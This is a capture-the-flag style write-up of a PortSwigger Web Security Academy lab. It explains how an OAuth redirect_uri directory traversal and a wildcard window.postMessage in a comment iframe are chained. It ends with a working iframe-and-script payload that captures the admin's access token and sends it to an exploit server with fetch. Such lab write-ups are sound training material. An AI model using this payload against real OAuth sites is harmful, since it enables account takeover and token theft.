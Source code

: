 ## Labs Covered

This write-up focuses on the following **EXPERT-level lab** from the PortSwigger Web Security Academy related to **OAuth Authentication**:

**Stealing OAuth access tokens via a proxy page**  
This lab demonstrates how attackers can leverage proxy pages to intercept and steal OAuth access tokens during authorization flows.

---

### LAB 6 - Stealing OAuth access tokens via a proxy page

### Lab Description

<img width="862" height="664" alt="image" src="https://github.com/user-attachments/assets/e9ccf2eb-c7e4-4d8c-a93c-6374c1c4dd35" />

**Solution**

This was a very tricky lab. To solve this, I had to find a secondary vulnerability in the website and use that as a proxy to steal the admin’s access token. It took me a while to understand what was supposed to be done here.
I started by logging into the website and going through the requests in Burp. I tried the directory traversal with **redirect_uri** and it was working. So, this was my primary vulnerability and I had to combine it with a secondary vulnerability.

<img width="1920" height="805" alt="image" src="https://github.com/user-attachments/assets/98966bc4-5f79-4ab1-976a-431102ce900c" />



I checked other pages on the website. There was no Next post option, unlike the previous lab. But I noticed that the Leave a comment section which was inside an iframe was using **window.postMessage()** method to send **window.location.href** data to the parent with target as **wildcard(*)**. This means that the child window (iframe) can send data to any parent window (domain). I decided to take advantage of this property. What if I could traverse the redirect_uri to the comment form?

THe use of * as the target in **window.postMessage()** indicates that the message is intended to be sent to any window, not just a specific one. 


<img width="1878" height="437" alt="image" src="https://github.com/user-attachments/assets/ebf17251-e4a2-46fb-ad00-2cea919c289f" />

<img width="755" height="488" alt="image" src="https://github.com/user-attachments/assets/a114750f-7f95-4487-b3a9-7542a0444ad7" />


<img width="1235" height="425" alt="image" src="https://github.com/user-attachments/assets/d3394773-ed94-4544-a089-74de82f258b9" />




I created an **iframe** that would point the redirect_uri to the comment form and added a script that would send the data received in the iframe to the parent window i.e. exploit server.

```

<iframe src=”https://oauth-0ace00b903459d15c097e8df02c000ab.web-security-academy.net/auth?client_id=y7wlhfhlcxdrmwehtm2d8&redirect_uri=https://0a69004f030e9d9cc082e851005100e5.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-621271860&scope=openid%20profile%20email"></iframe>
<script>
window.addEventListener('message',function(e){
fetch("/" + encodeURIComponent(e.data.data))})
</script>

```
<img width="1069" height="875" alt="image" src="https://github.com/user-attachments/assets/0928a7bc-0a3e-4428-b2c9-803dd86cb694" />
